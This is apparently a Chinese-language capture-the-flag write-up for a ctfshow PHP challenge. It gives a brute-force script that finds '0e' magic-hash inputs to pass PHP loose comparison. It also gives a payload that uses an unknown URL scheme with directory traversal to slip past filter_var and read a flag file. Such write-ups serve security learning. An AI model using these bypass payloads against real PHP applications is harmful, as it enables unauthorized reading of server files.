 这里涉及到弱比较，要求等号两端都要是0e开头

直接跑的话都不知道要跑多久，不过在robots.txt里发现hint

![](./images/image-2.png)

可以看到给出了末尾几位数

根据这个来写一个脚本

```
<?php
for ($i = 0; $i < 10000000; $i++) {
    $a=hash('md2','0e'.$i.'024452');
    if (is_numeric($a)&&substr($a,0,2)=='0e')
    {
        echo '1=0e'.$i.'024452';
        echo PHP_EOL;
    }
    $b=hash('md2',hash('md2','0e'.$i.'48399'));
    if(is_numeric($b)&&substr($b,0,2)=='0e')
    {
        echo '2=0e'.$i.'48399';
        echo PHP_EOL;
    }
}
```

得到两个字符串：

```
b=0e652024452
c=0e603448399
```

第三层：  
要POST一个url

hint说了flag在/f10g.txt里

这里filter\_var函数可以解析很多协议

这里的话尝试用SSRF，使用不存在的协议

php遇到不认识的协议就会当目录处理

于是构造如下payload，配合目录穿越一下得到flag

```
url=a://ctfshow.com/../../../../../../../fl0g.txt
```
